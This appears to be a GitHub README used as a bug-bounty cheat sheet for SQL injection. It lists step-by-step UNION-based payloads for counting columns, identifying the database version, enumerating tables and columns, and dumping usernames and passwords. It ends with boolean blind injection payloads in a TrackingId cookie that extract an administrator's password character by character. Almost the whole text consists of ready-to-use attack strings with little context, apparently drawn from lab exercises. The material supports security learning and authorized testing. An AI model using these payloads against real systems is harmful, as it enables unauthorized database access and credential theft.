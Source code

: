 # Bug-Bounty
This is all about web &amp; bugbounty
<h1>SQLI</h1>
<pre>(1) Determine the number of columns =>
   i)  ' order by 3 -- 
   ii) 'order by 3# 


(2) Determine the data types of the columns =>  
   i) ' UNION SELECT 'a', 'a' from DUAL-- -> here is a built-in table on Oracle called dual which can be used for this purpose
   ii) ' UNION SELECT 'a', 'a'#


(3) Output the version of the database => 
  i) ' UNION SELECT banner, NULL from v$version-- (Oracle)
  ii) ' UNION SELECT @@version, NULL# (Microsoft ,MySql)
  iii)' UNION SELECT version(), NULL-- (postgresql)
  
(4) Output the list of table names in the database (postgresql)

   i) ' UNION SELECT table_name, NULL FROM information_schema.tables--
 
(5) Output the column names of the table (postgresql)

    i) ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_xacgsm'--
    
(6) Output the usernames and passwords

    i) ' UNION select username_pxqwui, password_bfvoxs from users_xacgsm--
    ii) ' UNION SELECT NULL,username||'~'||password FROM users--(for retrieving multiple values in a single column)



7)Blind SQl->

   i)Modify the TrackingId cookie, changing it to:
     TrackingId=xyz' AND '1'='1
   ii)TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
   iii)'and (select 'a' from users where username ='administrator')='a'--
   iV)'and (select 'a' from users where username ='administrator' AND            
      LENGTH(password)>1)='a'--
   v)' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='q'--
</pre>
